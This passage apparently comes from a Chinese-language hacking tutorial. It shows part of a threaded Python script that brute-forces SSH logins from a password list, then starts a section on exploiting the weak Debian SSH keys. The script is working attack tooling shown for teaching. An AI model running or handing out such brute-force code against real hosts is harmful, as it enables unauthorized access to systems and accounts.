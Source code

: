 ```python

    finally:
        if release: connectionlock.release()


def main():
    parser = optparse.OptionParser('usage %prog -H <target host> -u <user> -F <password list>')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify target host')
    parser.add_option('-F', dest='passwdFile', type='string', help='specify password file')
    parser.add_option('-u', dest='user', type='string', help='specify the user')

    (options, args) = parser.parse_args()
    host = options.tgtHost
    passwdFile = options.passwdFile
    user = options.user

    if host == None or passwdFile == None or user == None:
        print(parser.usage)
        exit(0)

    fn = open(passwdFile, 'r')
    for line in fn.readlines():

        if isfound:
            print("[*] Exiting: Password Found")

            exit(0)
        if fails > 5:
            print("[!] Exiting: Too Many Socket Timeouts")
            exit(0)

        connectionlock.acquire()
        password = line.strip('\r').strip('\n')
        print("[-] Testing: " + str(password))
        t = Thread(target=connect, args=(host, user, password, True))
        child = t.start()


if __name__ == '__main__':
    main()
```

### 利用SSH中的弱私钥

对于SSH服务器，密码验证并不是唯一的手段。除此之外，SSH还能使用公钥加密的方式进行验证。
使用这一验证方式时，服务器和用户分别掌握公钥和私钥。使用RSA或是DSA算法，服务器能生成于SSH登录的密钥。
一般而言，这是一种非常好的验证方式。由于能够生成1024位、2048位，甚至是4096位的密钥，
这个认证过程就很难像刚才我们利用弱口令进行暴力破解那样破解掉。

不过，2006年Debian Linux发行版中发生了一件有意思的事情。软件自动分析工具发现了一行已被开发人员注释掉的代码。
这行代码用来确保创建SSH密钥的信息足够大。被注释掉之后，密钥的空间的大小的熵值降低到只有15位大小。
仅仅15位的熵意味着不论哪种算法和密钥长度，可能的密钥只有32767个。
